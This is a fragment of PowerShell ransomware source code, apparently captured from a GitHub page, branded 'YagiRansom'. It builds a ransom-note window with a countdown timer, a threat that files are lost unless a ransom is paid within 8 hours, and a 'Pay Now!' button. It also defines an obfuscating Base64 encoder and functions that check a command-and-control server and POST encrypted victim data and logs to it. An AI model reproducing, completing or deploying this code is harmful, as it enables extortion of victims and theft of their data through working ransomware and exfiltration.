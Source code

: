 ```powershell
$label1 = New-Object System.Windows.Forms.Label
$label1.ForeColor = "White"
$label1.Text = "But don
t worry, you can still recover them with the recovery key if you pay the ransom in the next 8 hours." 
$label1.AutoSize = $true 
$label1.Location = New-Object System.Drawing.Size(50,450)
$font1 = New-Object System.Drawing.Font("Consolas",15,[System.Drawing.FontStyle]::Bold) 
$form.Font = $Font1
$form.Controls.Add($label1) 
$okbutton = New-Object System.Windows.Forms.Button;
$okButton.Location = New-Object System.Drawing.Point(750,500)
$okButton.Size = New-Object System.Drawing.Size(110,35)
$okbutton.ForeColor = "Black"
$okbutton.BackColor = "White"
$okbutton.FlatStyle = [System.Windows.Forms.FlatStyle]::Flat
$okButton.Text = 'Pay Now!'
$okbutton.Visible = $false
$okbutton.Enabled = $true
$okButton.DialogResult = [System.Windows.Forms.DialogResult]::OK
$okButton.add_Click({ 
[System.Windows.Forms.MessageBox]::Show($this.ActiveForm, 'Your payment order has been successfully registered!', 'YagiRansom Payment Processing System',
[Windows.Forms.MessageBoxButtons]::"OK", [Windows.Forms.MessageBoxIcon]::"Warning")})
$form.AcceptButton = $okButton
$form.Controls.Add($okButton)
$form.Activate() 2>&1> $null
$form.Focus() 2>&1> $null
$btn=New-Object System.Windows.Forms.Label
$btn.Location = New-Object System.Drawing.Point(50,500)
$btn.Width = 500
$form.Controls.Add($btn)
$btn.ForeColor = "Red"
$startTime = [DateTime]::Now
$count = 10.6
$7VEqr=New-Object System.Windows.Forms.Timer
$7VEqr.add_Tick({$elapsedSeconds = ([DateTime]::Now - $startTime).TotalSeconds ; $remainingSeconds = $count - $elapsedSeconds
if ($remainingSeconds -like "-0.1*"){ $7VEqr.Stop() ; $okbutton.Visible = $true ; $btn.Text = "0 Seconds remaining.." }
$btn.Text = [String]::Format("{0} Seconds remaining..", [math]::round($remainingSeconds))})
$7VEqr.Start()
$btntest = $form.ShowDialog()
if ($btntest -like "OK"){ $Global:PayNow = "True" }}
function R64Encoder { 
   if ($args[0] -eq "-t") { $VaFQ = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($args[1])) }
   if ($args[0] -eq "-f") { $VaFQ = [Convert]::ToBase64String([IO.File]::ReadAllBytes($args[1])) }
   $VaFQ = $VaFQ.Split("=")[0] ; $VaFQ = $VaFQ.Replace("C", "-") ; $VaFQ = $VaFQ.Replace("E", "_")
   $8bKW = $VaFQ.ToCharArray() ; [array]::Reverse($8bKW) ; $R64Base = -join $8bKW ; return $R64Base }
function GetStatus {
   Try { Invoke-WebRequest -useb "$7CiB`:$UFX/status" -Method GET 
      Write-Host "[i] C2 Server is up!" -ForegroundColor Green }
   Catch { Write-Host "[!] C2 Server is down!" -ForegroundColor Red }}
function SendResults {
   $cvf = Invoke-AESEncryption -Key $Uz19o -Text $WiETm ; $cVl = R64Encoder -t $cvf
   $2YngY = "> $cVl > $OgE > $zVSza > $7VEq"
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "[!]" | Select-String "YagiRansom!" -NotMatch
   $XoX = R64Encoder -t $2YngY ; $B64Logs = R64Encoder -t $RansomLogs
   Invoke-WebRequest -useb "$7CiB`:$UFX/data" -Method POST -Body $XoX 2>&1> $null
   Invoke-WebRequest -useb "$7CiB`:$UFX/logs" -Method POST -Body $B64Logs 2>&1> $null }
```